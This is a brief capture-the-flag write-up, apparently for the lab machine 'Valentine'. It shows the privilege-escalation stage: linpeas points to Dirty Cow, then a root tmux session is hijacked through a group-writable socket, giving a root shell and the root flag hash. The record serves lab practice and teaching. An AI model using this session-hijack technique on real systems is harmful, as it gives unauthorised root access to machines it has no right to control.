


# 20 - PrivEsc


# Let's grab the flag
```
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
```


# Linpeas.sh 




That is [Dirty Cow](https://dirtycow.ninja/) privilege escalation vulnerability.


# Tmux



# User hype has rw access on the socket

```bash
hype@Valentine:/dev/shm$ ls -l /.devs/dev_sess
srw-rw---- 1 root hype 0 May 19 10:28 /.devs/dev_sess
```

# Tmux sessions hijacking [link](https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions)

```bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```

# Flag

```bash
root@Valentine:/home/hype# cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
```